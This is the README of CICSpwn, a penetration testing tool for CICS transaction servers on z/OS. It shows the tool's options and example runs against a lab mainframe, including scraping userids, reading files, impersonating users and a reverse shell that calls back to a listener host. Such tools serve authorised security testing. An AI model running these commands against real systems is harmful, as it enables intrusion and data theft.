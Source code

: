 # CICSpwn
## Description  
CICSpwn is a tool to pentest a CICS Transaction servers on z/OS.

## Features    
* Get general information about CICS and the underlying z/OS  
  * List available IBM supplied transactions
  * Get active sessions and userids
  * Check if possible to remotely execute code
  * Check the presence of RACF/ACF2/TopSecret security  
 * List and read files created by the application 
 * List available transactions
 * Remotely execute code using Spoolopen and TDqueue
## Usage
```
$python cicspwn.py -h
usage: cicspwn.py [-h] [-a APPLID] [-i] [-t] [-f] [-p PATTERN] [-U USERID]
                  [-P PASSWORD] [--get-file FILENAME]
                  [--enable-trans ENA_TRANS] [-q] [-u] [-g SURROGAT_USER]
                  [-s SUBMIT] [--queue QUEUE] [-l LHOST] [-j JCL]
                  IP PORT

CicsPwn: a tool to pentest CICS transaction servers on z/OS

positional arguments:
  IP                    The z/OS Mainframe IP or Hostname
  PORT                  CICS/VTAM server Port

optional arguments:
  -h, --help            show this help message and exit
  -a APPLID, --applid APPLID
                        CICS ApplID on VTAM, default is CICS
  -i, --info            Gather information about a CICS region
  -t, --trans           Get all installed transactions on a CICS TS server
  -f, --files           List all installed files a on TS CICS
  -p PATTERN, --pattern PATTERN
                        Specify a pattern of a files/transaction to get
                        (default is "*")
  -U USERID, --userid USERID
                        Specify a userid to use on CICS
  -P PASSWORD, --password PASSWORD
                        Specify a password for the userid
  --get-file FILENAME   Get the content of a file. It attempts to change the
                        status of the file if it's not enabled, opened or
                        readable
  --enable-trans ENA_TRANS
                        Enable a single transaction
  -q, --quiet           Remove Trailing and journal before performing any
                        action
  -u, --userids         Scrape userids found in different menus
  -g SURROGAT_USER, --surrogat SURROGAT_USER
                        Checks wether you can impersonate another user when
                        submitting a job
  -s SUBMIT, --submit SUBMIT
                        Submit JCL to CICS server. Specify:
                        dummy,reverse,custom (need -j option),cicsshell
  --queue QUEUE         Provides the name of the TD queue to submit a JOB
  -l LHOST, --lhost LHOST
                        Remote server to call back to for reverse shell
                        (host:port)
  -j JCL, --jcl JCL     Custom JCL file to provide
```
## Prerequisites
3270 Python library [py3270](https://pypi.python.org/pypi/py3270/0.2.0)

## Getting general information
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -i
[+] Connecting to target 192.168.1.209:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Getting information about CICS server (APPLID: CICS)
	[*] CICS TS Version 3.2
[+] Available IBM supplied transactions: 
	[*] CEMT
	[*] CECI
	[*] CEDA
	[*] CEDF
[+] General system information: 
	[*] Userid: CICSUSER
	[*] Sysid: S650
	[*] LU session name: LCL704
	[*] language: E
	[*] Files HLQ:	CICS650.**
	[*] Library path:	DFH320.CICS.**
[+] Active users
	[*] CICSUSER
	[*] CICSUSER
[+] JCL Submission
	[*] Access to internal spool is apparently available
	[*] Transiant queue to access spool is apparently available
		[*] When submitting a job, provide the option --inreader=IRDR
[+] Access control
	[*] User CICSUSER authorized to submit JOBS
```
## Reverse shell using CICS
```
root@kali:~/cics# python cicspwn.py -a CICS 192.168.1.209 23 -s reverse -l 192.168.1.16:4445
[+] Connecting to target 192.168.1.209:23
[*] Access to CICS Terminal is possible with APPID CICS
[+] Setting the current terminal to mixed case
[*] Got TerminalID L702
[*] Current terminal is NOW mixed case
[+] Spool not available apparently, trying via TDQueue
[+] Writing to the internal TDQueue
	[*] JCL Written to TDqueue, it should be executed any second

```

## Copyright and license  
cicsPWN is free software: you can redistribute it and/or modify it under the terms of the GNU General Public License as published by the Free Software Foundation, either version 3 of the License, or (at your option) any later version.  
CICSpwn is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY; without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  
See the GNU General Public License for more details.

You should have received a copy of the GNU General Public License along with nmaptocsv. If not, see http://www.gnu.org/licenses/.

## Credit
The REXX code of the reverse shell was mainly inspired by the work of [@mainframed767](https://github.com/mainframed/Mainframed)

## Contact
Ayoub ELAASSAL ayoul3.zos at gmail dot com
